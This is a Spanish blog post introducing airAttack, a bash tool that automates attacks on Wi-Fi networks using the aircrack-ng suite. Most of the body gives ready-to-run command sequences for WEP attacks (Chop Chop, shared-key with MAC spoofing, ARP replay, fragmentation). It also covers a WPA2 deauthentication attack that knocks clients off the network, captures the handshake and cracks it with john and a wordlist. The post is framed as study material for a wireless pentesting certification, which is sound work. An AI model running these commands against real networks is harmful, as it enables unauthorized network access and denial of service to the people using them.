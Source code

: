 ```yaml
---
layout: single
title: airAttack
excerpt: "En este artículo, explico la utilidad de la herramienta airAttack. También dejo reflejado cada ataque, la finalidad de cada ataque y como ejecutarlo. Todos los ataques de esta herramienta se ejecutan gracias a la suite aircrack-ng. La herramienta fue publicada en github el día 27/06/2021, pocos días después de aprobar el OSWPcomo primera release."
date: 2021-08-31
classes: wide
header:
  teaser: /assets/images/airAttack/airAttack.jpg
  teaser_home_page: true
categories:
  - script
tags:
  - shell
  - wireless
  - aircrack-ng
  - wireless_pentesting
---
```


![](/assets/images/airAttack/AIR-ATTACK-Header.jpg)

**airAttack** es una herramienta ofensiva para automatizar los ataques a redes inalámbricas escrita en bash. Esta herramienta será mejorada por mi próximamente para para optimizar determiandas porciones de código. Los ataques de denegación de servicio así como nuevas funciones serán añadidas. Este programa lo escribí cuando estaba estudiando para el OSWP (Offensive Security Wireless Professional).

En este artículo, explicaré cada ataque que puede utilizarse en airAttack, la finalidad de dicho ataque y como ejecutarlo.

La herramienta se puede descargar en:

* [https://github.com/e1abrador/airAttack](https://github.com/e1abrador/airAttack)

<h2> Ataques WEP </h2>

Antes de empezar con los ataques WEP, es importante recalcar que todos estos ataques están enfocados obtener el máximo número de IVS para poder crackear la contraseña, a diferéncia de los ataques WPA2, cuya prioridad es obtener el hash de la red para poder posteriormente crackearlo.

**IVS:** Los IVS, también conocidos como "Archivos de Vector de inicialización", se clasifican como archivos de datos que contienen vectores de  inicialización que son necesarios para la generación de los datos cifrados en la red.

<h3><u>Chop</u> <u>Chop</u> <u>Attack</u></h3>
El ataque de **Chop Chop** consiste en coger un byte de datos de un paquete encriptado WEP, substituyendo los valores de los bytes del paquete y recalculando la suma de verificación del encriptado. Los paquetes ya modificados se envían al router, el router simplemente los descarta hasta que el atacante finalmente logra sustituir una suma de verificación válida.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -4 -a mac_de_ap -h mac_tarjeta wlan0
packetforge-ng -0 -a mac_de_ap -h mac_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w ataque_chopchop
aireplay-ng -2 -r ataque_chopchop wlan0
aircrack-ng captura-01.cap
```

**Nota:** Es importante dejar un pequeño espacio de tiempo entre comando y comando y esperar a que cada comando se inyecte correctamente en el router.

<h3><u>SKA</u></h3>
El ataque **SKA**, también conocido como "Broken Shared Key Authentication" consiste en copiar la dirección MAC de un cliente ya conectado a la red en nuestra própia tarjeta de red y generar un ataque de falsa autenticación con nuestra nueva MAC (MAC copiada del cliente previamente autenticado), el objetivo de autenticar nuestra MAC es generar paquetes ARP en la red.

```bash
airodump-ng --bssid mac_de_ap -c canal_de_ap wlan0 -> Por ahora no es necesario empezar a capturar paquetes.
```
Cuando tenemos el punto de acceso localizado y la MAC localizada, dejaremos de ver el tráfico de la red con airodump y procederemos a cambiar la MAC de nuestra tarjeta de red, con el siguiente one-liner se puede cambiar.

```bash
ifconfig wlan0 down &> /dev/null && macchanger --mac mac_de_cliente wlan0 &> /dev/null && ifconfig wlan0 up &> /dev/null
```

**Nota**: Puede que sea necesario ejecutar por segunda vez el one-liner para que se cambie correctamente.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -b mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -0 1 -e essid_de_ap -a mac_de_ap -h mac_de_ap wlan0
aircrack-ng captura-01.cap
```

<h3><u>ARP</u> <u>Request</u> <u>Replay</u> <u>Attack</u></h3>

El ataque de **ARP Request Replay Attack** consiste en inyectar nuestra MAC en el router víctima, posteriormente se genera un ataque de denegación de servicio sobre uno de los clientes conectados (si este ataque se lanza contra todos, se obtendrán mas IVS, haciendo que la probabilidad de crackear la clave será más alta) y, cuando dichos clientes se vuelnvan a conectar a la red, se genererarán de forma automática paquetes ARP, lo que generará IVS.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -x 1000 -n 1000 -b mac_de_ap -h mac_de_tarjeta wlan0
aireplay-ng -0 5 -a mac_de_ap -h mac_de_cliente_conectado wlan0
aircrack-ng captura-01.cap
```

<h3><u>Fragmentation</u> <u>Attack</u></h3>

Este ataque necesita que 1 único paquete de datos sea capturado por airodump. Posteriormente, se genera un nuevo paquete modificado con la dirección MAC de nuestra tarjeta de red y se inyecta el paquete modificado por el atacante en el punto de acceso objetivo. De esta forma, se generarán paquetes ARP y, en consecuéncia, los IVS necesários para crackear la clave.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0 -> es muy recomendable dejar el cliente inyectado, ya que facilitará la obtención del paquete de datos.
packetforge-ng -0 -a mac_de_ap -h mac_de_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w fragmentation_attack
aireplay-ng -2 -r fragmentation_attack wlan0
aircrack-ng captura-01.cap
```

<h2> Ataques WPA2 </h2>

El protocolo WPA2 hace años que empezó a monopolizarse en los routers instalados por las compañías telefónicas. Aun que si que es verdad que el protocolo WEP no se suele utilizar, aún hay routers que lo implementan, ya que hay dispositivos (si són de última generación suele no pasar) que únicamente aceptan el procolo WEP.

El objetivo en estas redes es obtener un hash para poder crackearlo mediante el uso de un diccionario de contraseñas.

<h3><u>Ataque</u> <u>de</u> <u>deautenticación</u></h3>

El **ataque de deautenticación** ataque es un ataque de denegación de servicio, el objetivo es provocar que la víctima se reconecte al punto de acceso, en el momento que un dispositivo se conecta al router, se genera un packete handshake, el cual contiene la contraseña hasheada de la red inalámbrica.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -0 15 -a mac_de_ap -h mac_de_cliente wlan0 -> se utiliza para deautenticar a un solo cliente de la red
aireplay-ng -0 15 -a mac_de_ap -c FF:FF:FF:FF:FF:FF  wlan0 -> se utiliza para deautenticar a todos los clientes de la red
aircrack-ng -J miCaptura captura.cap
hccap2john miCaptura.hccap > hash
john --wordlist=rockyou.txt hash
```
